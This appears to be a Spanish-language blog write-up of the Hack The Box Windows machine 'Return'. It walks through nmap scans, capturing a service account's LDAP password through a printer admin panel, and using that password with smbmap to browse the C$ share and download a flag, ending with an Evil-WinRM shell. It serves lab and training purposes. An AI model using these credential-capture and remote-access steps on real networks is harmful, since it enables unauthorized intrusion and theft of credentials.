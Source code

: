 ```yaml
---
layout: single
title: Return Writeup HTB (OSCP Style)
excerpt: "En el siguiente artículo veremos como realizar una enumeración al mome
nto de estar en un pentesting sobre windows"
date: 2022-05-07
classes: wide
image: /assets/img/posts/HTB/driver/driver.png
categories:
  - HTB
tags:
  - Hacking
---
```

![header-return](/assets/img/posts/HTB/return/return.png)

## Datos de la Máquina

| Contenido | Descripción |                                                                                                                                        
|--|--|                                                                                                                                                            
| OS: | ![windows](/assets/img/posts/windows.png) |                                                                                                                                         
| Dificultad: | Fácil |                                                                                                                                            
| Puntos: | 20 |                                                                                                                                                   
| Lanzamiento: | 27 Sep 2021 |                                                                                                                                
| Creadores: |[MrR3boot](https://app.hackthebox.com/users/13531) |

## Reconocimiento

Primero agregaremos nuestra ip al archivo **/etc/hosts** con el dominio **return.htb**

![hosts](/assets/img/posts/HTB/return/hosts.png) 

### nmap

Como siempre comenzaremos con un escaneo a los **65535** puertos **TCP/IP** para verificar cuales se encuentran abiertos, para esto ejecutaremos el siguiente comando:
```console
nmap -n -p- -T4 --min-rate 10000 return.htb --open -oA alltcp
```
Como observamos en la siguiente imagen encontramos con los siguientes puertos abiertos:
- 53 (domain)
- 80 (http)
- 135 (msrpc)
- 139 (netbios-ssn)
- 445 (microsfot-ds)
- 464 (kpasswd5)
- 593 (http-rpc-epmap)
- 3269 (globalcatLDAPssl)
- 49675  (unknown)

![nmap-tcpscan](/assets/img/posts/HTB/return/nmap-tcpscan.png)

Una vez identificados los puertos abiertos, procederemos a identificar las versiones y servicios de cada uno, y de igual manera arrojaremos los script por defecto de nmap:  
  
Cabe mencionar que el argumento **-sCV** es una union de usar **-sV** y **-sC**

```console
nmap -sCV -n -p 53,80,135,139,445,464,593,3269,49675 -T4 return.htb -oA tcp-scripts
```
![nmap-scripts](/assets/img/posts/HTB/return/nmap-scripts.png)

Al identificar una máquinas Windows con varios puertos abiertos, podemos hacer uso de la herramienta **Crackmapexec**, para confirmar el hostname.

![cme](/assets/img/posts/HTB/return/cme.png)

Haciendo una busqueda por internet encontre una guía para recopilar información usando Python3: [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap) 

![python-ldap](/assets/img/posts/HTB/return/python-ldap.png)

Agregamos el host en nuestro **etc/hosts**

```console
echo '10.129.132.85	return.local' >> /etc/hosts
```
### Printer Admin

Observando los puertos abiertos que encontramos en la fase de reconocimiento nos percatamos que teniamos el puerto **80** abierto, lo cual visitamos en el navegador y nos aparece un panel de administración de impresion.

![printer-panel](/assets/img/posts/HTB/return/printer-admin-panel.png)

Navegamos sobre la web y encontramos información relevante en la configuración

![settings-printer](/assets/img/posts/HTB/return/settings-printer.png)

Observando la contraseña se encuentra cifrada, por lo cual buscando en la red nos escontramos con [este](https://www.ceos3c.com/security/obtaining-domain-credentials-printer-netcat/) articulo lo cual podemos interceptar la contraseña en texto plano con netcat.

![nc-389](/assets/img/posts/HTB/return/nc-389.png)

### Crackmapexec

Ahora que tenemos las credenciales, trataremos de obtener más información con Crackmapexec.
![cmd-cred](/assets/img/posts/HTB/return/cme-cred.png)

### SMBMap

De igual forma podemos conectarnos ahora que ya tenemos credenciales.
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!"
```
![smbmap-01](/assets/img/posts/HTB/return/smbmap-01.png)

Observamos que tenemos permisos de **(Lectura y Escritura)** sobre el disco C.
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!" -r C$
```
![smbmap-02](/assets/img/posts/HTB/return/smbmap-02.png)

Nos vamos a la carpeta Usuarios para darle un vistazo.
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!" -r C$/Users/
```
![smbmap-03](/assets/img/posts/HTB/return/smbmap-03.png)

Nos dirigos a el usuario con el cual iniciamos sesión.
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!" -r C$/Users/svc-printer
```
![smbmap-04](/assets/img/posts/HTB/return/smbmap-04.png)

Hechamos un vistazo a las carpetas y nos vamos sobre **Desktop**
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!" -r C$/Users/svc-printer/Desktop
```
![smbmap-05](/assets/img/posts/HTB/return/smbmap-05.png)

Tenemos la primer bandera de **user.txt**, ahora la descargamos sobre nuestra máquina.
```console
smbmap -H return.local -u "svc-printer" -p "1edFg43012\!\!" -r C$/Users/svc-printer/Desktop -A "user.txt"
```
![smbmap-06](/assets/img/posts/HTB/return/smbmap-06.png)

### Evil-WinRM

Con las credenciales que obtuvimos anteriormente de igual forma podremos obtener una shell interactiva usando [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)  
![shell-evil-winrm](/assets/img/posts/HTB/return/shell-evilwinrm.png)
